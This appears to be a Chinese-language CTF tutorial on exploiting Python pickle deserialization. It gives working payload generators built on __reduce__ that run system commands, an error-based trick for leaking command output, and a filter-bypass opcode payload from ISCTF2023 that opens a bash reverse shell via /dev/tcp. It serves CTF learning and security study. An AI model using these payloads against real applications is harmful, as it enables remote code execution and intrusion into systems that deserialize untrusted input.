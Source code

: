 ```python
sertext = pickle.dumps(text)
print(sertext)
reltext = pickle.loads(sertext)
print(reltext)
```
上面的代码是无法有效存储text的值的，所以需要用到__reduce__魔术方法，相当于php的__wakeup__方法<br />一般的CTF题目都是要求base64传入序列化的字符
```python
import pickle
import os
import base64

class tmp():
    def __reduce__(self):
        return (os.system,("id",))
sertext = pickle.dumps(tmp())
print(base64.b64encode(sertext))

```
上述就是一个最基础的pickle反序列化执行id命令的代码，但是python全局是没有回显的，可以反弹shell，或者把命令夹带在错误中执行，每个题目不一样，有的题目是没有import os的，还需要自己加上__import__魔术方法
<a name="py6sj"></a>
# 做题方法
<a name="zzEOT"></a>
## 报错输出(需打开debug)
添加raise Exception
```python
import pickle
import base64

class tmp():
	def __reduce__(self):
		return (exec,("raise Exception(__import__('os').popen('id').read())",))
sertext = pickle.dumps(tmp())
print(base64.b64encode(sertext))

```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/39135006/1708184962922-e6b075ff-7a3e-40a6-9601-e8efbd1aecab.png#averageHue=%239c9c9c&clientId=u1ee9d41e-971c-4&from=paste&height=935&id=ua00a4c14&originHeight=1542&originWidth=2560&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=696065&status=done&style=none&taskId=u9a1d60b1-f38e-40c4-856b-b82ee7d3a85&title=&width=1551.515061839996)<br />更改id为cat /flag即可<br />![image.png](https://cdn.nlark.com/yuque/0/2024/png/39135006/1708185190223-d4a02427-49f0-4c39-88b4-73401433fe0a.png#averageHue=%23a8a8a7&clientId=u1ee9d41e-971c-4&from=paste&height=304&id=u39f0bbe7&originHeight=502&originWidth=2364&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=121791&status=done&style=none&taskId=u00fa8f76-74fd-49a0-98ac-f03af6299b6&title=&width=1432.7271899178713)
<a name="ag5fH"></a>
## 简单绕过
<a name="YtCJ9"></a>
### 过滤字符
ISCTF2023考了一道直接过滤字符的题<br />.replace(b'os', b'').replace(b'reduce', b'').replace(b'system', b'').replace(b'env',b'').replace(b'flag', b'')<br />用双写绕过，然后直接手搓opcode用R指令代替reduce即可
```python
import pickle
import base64
newp=b'''cooss
syssystemtem
(S'bash -c "bash -i >& /dev/tcp/ip/2333 <&1"'
tR.'''
print(newp)
print(base64.b64encode(newp))
```
解释：
```python
c<module>
<callable>
(<args>
tR
```
